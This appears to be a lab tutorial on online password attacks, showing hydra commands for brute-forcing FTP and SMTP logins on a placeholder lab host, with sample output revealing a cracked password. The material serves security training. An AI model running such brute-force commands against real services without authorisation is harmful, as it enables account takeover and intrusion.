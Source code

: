 	Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.  

Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.  

FTP  

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

FTP

```shell-session
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
```

-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.

ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

SMTP  

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

SMTP

```shell-session
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
